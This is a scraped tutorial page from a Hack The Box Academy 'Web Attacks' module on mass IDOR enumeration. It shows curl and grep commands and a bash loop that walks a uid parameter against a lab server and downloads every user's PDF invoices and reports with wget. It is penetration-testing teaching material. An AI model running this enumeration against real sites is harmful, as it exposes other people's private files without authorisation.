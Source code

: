 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1186
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1186
// Section Title: Mass IDOR Enumeration
// Page Title: Hack The Box - Academy
// Page Number: 8
-->

# Mass IDOR Enumeration

**Module Name:** Web Attacks **Page Number:** 8

#### 

#### WEB ATTACKS

# Mass IDOR Enumeration

## Insecure Parameters

``` html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

``` html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

## Mass Enumeration

``` html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

``` shell-session
ndefstathiou@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

``` shell-session
ndefstathiou@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

``` bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

# 

# 

#### Questions

####